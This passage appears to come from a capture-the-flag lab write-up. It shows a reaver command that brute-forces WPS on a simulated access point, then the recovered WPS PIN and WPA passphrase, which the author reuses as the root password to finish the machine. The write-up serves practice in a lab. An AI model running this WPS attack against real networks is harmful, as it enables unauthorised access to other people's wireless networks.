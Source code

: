 The target AP is `wlan0`, which has a MAC from the `iw` command above of `02:00:00:00:00:00`. The monitor-mode interface is `mon0`. I'll use `reaver`'s `wash` command to get the BSSID/MAC:
- *Content from [Outpost24](https://outpost24.com/blog/wps-cracking-with-reaver/)*

```shell
reaver -i mon0 -b 02:00:00:00:00:00 -vv
```

> Got it!

![](Pasted%20image%2020250204185712.png)

WPS PIN: `12345670`
WPA PSK: `WhatIsRealAnDWhAtIsNot51121!`

This previous password works for `root`, so I can now get root flag.

### Root flag

![](Pasted%20image%2020250204185932.png)

==Machine pwned!==